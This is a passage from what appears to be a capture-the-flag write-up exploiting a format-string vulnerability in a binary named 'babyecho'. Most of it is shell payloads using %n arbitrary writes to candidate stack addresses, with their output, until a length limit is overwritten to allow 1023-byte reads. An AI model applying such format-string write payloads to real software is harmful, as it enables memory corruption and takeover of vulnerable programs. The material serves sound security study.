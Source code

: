 So we have five instances of 0x0000000d:
<ul>
  <li>0xffff9440</li>
  <li>0xffff9464</li>
  <li>0xffffc684</li>
  <li>0xffffc690</li>
  <li>0xffffca58</li>
</ul>

We try modifying each of them using our %n arbitrary write to see what happens:

<pre>
$ <span class='in'>echo -e '\x40\x94\xff\xff%7$n' | ./babyecho</span>
Reading 13 bytes
....
Reading 13 bytes
</pre>

<pre>
$ <span class='in'>echo -e '\x64\x94\xff\xff%7$n' | ./babyecho</span>
Reading 13 bytes
....
Reading 13 bytes
</pre>

<pre>
$ <span class='in'>echo -e '\x84\xc6\xff\xff%7$n' | ./babyecho</span>
Reading 13 bytes
....
Reading 13 bytes
</pre>

<pre>
$ <span class='in'>echo -e '\x90\xc6\xff\xff%7$n' | ./babyecho</span>
Reading 13 bytes
....
Reading 4 bytes
</pre>

Aha! We were able to overwrite the length value with the integer 4. Obviously we don't want 4, but because of the 13-byte limit the best we can do is 99 more:

<pre>
$ <span class='in'>echo -e '\x90\xc6\xff\xff%99x%7$n' | ./babyecho</span>
Reading 13 bytes
....                                                                                                  d
Reading 103 bytes
</pre>

or is it? We can actually mess with a different byte. In other words, instead of changing the last byte - 0x000000xx - we change the second last - 0x0000xx00 - which will be at the next address:

<pre>
$ <span class='in'>echo -e '\x91\xc6\xff\xff%99x%7$n' | ./babyecho</span>
Reading 13 bytes
....                                                                                                  d
Reading 1023 bytes
</pre>
